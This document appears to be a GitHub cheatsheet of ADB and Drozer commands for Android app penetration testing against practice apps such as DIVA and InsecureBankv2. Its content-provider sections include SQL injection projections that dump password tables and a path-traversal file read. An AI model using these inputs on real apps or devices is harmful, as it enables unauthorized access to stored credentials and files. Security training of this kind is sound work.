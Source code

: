 # adb-drozer-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs & SPLIT APKs
```
adb install <apkname>
adb install-multiple <splitapkname1> <splitapkname2> <splitapkname3> <splitapkname4>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

Forwarding Ports
```
adb forward tcp:hostport tcp:androidport
adb reverse tcp:androidport tcp:hostport
```


## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
**DROZER Intent options for Activity, Broadcast, Service**
```
-a is used to specify action example: -a android.intent.action.VIEW
--extra is to specify strings example: --extra key value
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii"
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
```

DROZER Activities
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```
DROZER broadcasts
```
dz> run app.broadcast.info -a jakhar.aseem.diva  #listing broadcast
dz> run app.broadcast.start --component jakhar.aseem.diva jakhar.aseem.diva.BroadCast  #starting Broadcast
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```
DROZER services
```
dz> run app.service.info -a jakhar.aseem.diva  #listing services
dz> run app.service.start --component jakhar.aseem.diva jakhar.aseem.diva.TestService  #starting Services
```


## Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER contentproviders
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

#### Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

#### DROZER ATTACK SURFACE SCAN & MANIFEST READ
```
dz> run app.package.attacksurface jakhar.aseem.diva    #attack surface listing
dz> run app.package.manifest jakhar.aseem.diva     #manifest file listing
```

## Debuggable app connection</br>
Open debuggable app then run below command
```
adb jdwp   #it shows the port to socket of dubuggale app
```
Forward the host tcpport to socketport of debuggable android app
```
adb forward tcp:7777 jdwp:12167
```
Attach jdb to it(jdb by default comes with platform-packages)
```
jdb -attach localhost:7777
```
